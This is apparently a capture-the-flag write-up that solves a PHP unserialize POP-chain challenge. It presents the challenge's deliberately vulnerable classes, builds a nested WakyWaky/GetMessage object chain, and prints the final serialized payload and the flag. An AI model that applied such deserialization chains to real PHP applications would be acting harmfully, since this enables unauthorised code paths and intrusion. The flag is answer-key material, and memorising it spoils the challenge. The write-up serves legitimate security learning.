

As I learned from here, [unserialize php chain](https://vickieli.medium.com/diving-into-unserialize-pop-chains-35bc1141b69a) is injecting objects in order to get gadget. 
> POP stands for Property Oriented Programming, and the name comes from the fact that the attacker can control all of the properties of the deserialized object. Similar to ROP attacks (Return Oriented Programming), POP chains work by chaining code “gadgets” together to achieve the attacker’s ultimate goal. These “gadgets” are code snippets borrowed from the codebase that the attacker uses to further her goal.

Alright, so this is the code:
```php
$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}
```

1. We want to create a situation where there is an `GetMessage` object, and on its `receive` the value is `HelloBooooooy`.

2. We need that the global `getflag` will be true, and that's can happen only using execution of the magic method `__toString` of `WakyWaky`.

The first requirement can be achieved easily, by this snippet:
```php
$a = new GetMessage();
$a->receive = "HelloBooooooy";
```

Then, as we can see the `WakyWaky` object has this `__wakeUp` magic method, which is being called when the object gets deserialized:
```php
public function __wakeup() {
    echo "[YOU]: ".$this->msg."<br>";
}
```

If we'll inject inside `msg` another `WakyWaky` object, we will cause it to execute `__toString` of `WakyWaky`, and by this way getting the second requirement.
```php
function __toString() {
    global $getflag;
    $getflag = true;
    return (new GetMessage($this->msg))->receive;
}
```

So, we need this: `WakyWaky->$msg = WakyWaky->$msg = GetMessage->$receive = "HelloBooooooy"`

Let's build that using this code:
```php
$getMsg = new GetMessage();
$getMsg->receive = "HelloBooooooy";

$waky2 = new WakyWaky();
$waky2->msg = $getMsg;

$waky1 = new WakyWaky();
$waky1->msg = $waky2;

echo serialize($waky1)."\n";
echo var_dump($waky1);
```
And the output is:
```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}

object(WakyWaky)#3 (1) {
  ["msg"]=>
  object(WakyWaky)#2 (1) {
    ["msg"]=>
    object(GetMessage)#1 (1) {
      ["receive"]=>
      string(13) "HelloBooooooy"
    }
  }
}
```

So, our final payload will be:
```
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```



**Flag:** ***`uns3r14liz3_p0p_ch41n_r0cks`***
